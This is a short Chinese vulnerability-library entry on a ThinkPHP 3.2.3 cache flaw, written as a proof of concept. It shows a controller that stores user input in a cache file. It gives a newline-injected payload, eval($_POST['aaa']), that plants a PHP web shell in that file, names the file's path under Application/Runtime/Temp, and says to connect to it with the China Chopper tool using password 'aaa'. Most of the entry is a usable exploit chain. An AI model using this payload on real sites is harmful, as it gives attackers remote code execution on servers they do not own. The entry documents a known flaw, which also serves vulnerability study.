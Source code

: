 ```yaml
---
title: 'Thinkphp 3.2.3 缓存漏洞'
date: Thu, 27 Aug 2020 15:46:34 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

Thinkphp 3.2.3

### 漏洞产生条件

此版本默认的缓存处理机制中，缓存文件是一个可访问的.php文件，编程人员把用户可控参数写入缓存则会产生漏洞。

### 漏洞验证POC

##### 获取用户可控参数写入缓存

例：

```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {

    public function index(){
        $a=I('post.a');
        S('name',$a);
    }
}
```

##### 用户传参数：

```
?a=%0aeval($_POST['aaa']);%0a
```

%0a为换行符，默认存入缓存文件时用户参数存在于注释中。

##### 写入缓存文件，文件名为md5加密

```
md5(name)
```

##### 文件默认路径

```
<domain>/Application/Runtime/Temp/<md5>.php
```

##### 菜刀连接

```
http://xxxxxxx/Application/Runtime/Temp/<md5>.php 密码aaa
```